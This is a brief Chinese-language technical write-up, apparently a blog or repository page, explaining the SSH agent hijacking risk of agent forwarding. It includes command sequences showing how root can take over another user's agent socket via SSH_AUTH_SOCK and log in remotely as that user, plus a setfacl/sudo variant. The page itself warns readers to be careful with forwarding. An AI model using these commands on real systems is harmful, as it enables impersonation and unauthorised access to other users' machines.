 ####Agent Hijacking
agent forwarding在安全方面有一个好处就是用户的私钥永远不会出现在远端服务器或者传输过程中。但却会面临另外一个安全隐患：agent hijacking
	  
ssh实现的每一个方式都会提供一种让client向agent请求服务的机制，在UNIX/Linux上是用/tmp/文件夹下面的UNIX domain socket实现的。  
	
这个文件是被系统重度保护的，只有当前进程的用户才能访问，并且被保护在相应地子文件夹下面。但是任何措施都不能防止root用户访问任何一个文件。  
	
root用户可以通过该domain socket连接该socket对应的用户能够访问的任何机器，并且是以这个用户的身份。  
	
下面是简单的实现方式：
	


```
	ls -l /tmp/ssh*      #look for somebody's agent socket
	/tmp/ssh-CXkd6094:
	total 24
	srwxr-xr-x    1 steve    steve           0 Aug 30 08:46 agent.6094=
		
	export SSH_AUTH_SOCK=/tmp/ssh-CXkd6094/agent.6094

	ssh steve@remotesystem

	remote$                  # Gotcha! Logged in as "steve" user on remote system!
```

如果没有root权限也没关系，可能你有sudo的权限，同样下面的操作也可以完成相同的目的：  

```
	ssh -A user@host
	user@host$ setfacl -m otheruser:x   $(dirname "$SSH_AUTH_SOCK")
	user@host$ setfacl -m otheruser:rwx "$SSH_AUTH_SOCK"
	user@host$ sudo su - otheruser
	otheruser@host$ ssh server
	otheruser@server$
```   	
目前没有任何技术手段防止root用户劫持SSH agent socket，所以鉴于安全方面的考虑，慎用ssh angent forwarding.
